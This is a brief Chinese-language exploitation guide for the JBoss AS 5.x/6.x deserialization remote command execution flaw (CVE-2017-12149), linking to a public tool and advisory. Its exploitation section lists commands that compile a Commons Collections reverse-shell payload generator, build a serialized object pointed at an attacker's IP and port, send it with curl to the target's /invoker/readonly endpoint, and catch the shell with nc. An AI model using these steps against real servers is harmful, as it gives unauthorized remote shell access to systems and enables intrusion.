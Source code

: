 # JbossAS 5.x/6.x反序列化远程命令执行漏洞(CVE-2017-12149)
* Github[https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
* [https://access.redhat.com/security/cve/cve-2017-12149](https://access.redhat.com/security/cve/cve-2017-12149)
* 工具[http://scan.javasec.cn/java/JavaDeserH2HC.zip](http://scan.javasec.cn/java/JavaDeserH2HC.zip)
* [http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip](http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip)
## 漏洞利用
1: `javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

2: `java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port` //反弹shell的IP和端口,然后会生成一个ReverseShellCommonsCollectionsHashMap.ser文件

3: `curl 网址/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

4: 再打开另外一个终端并且nc开始设置的反弹shell的IP
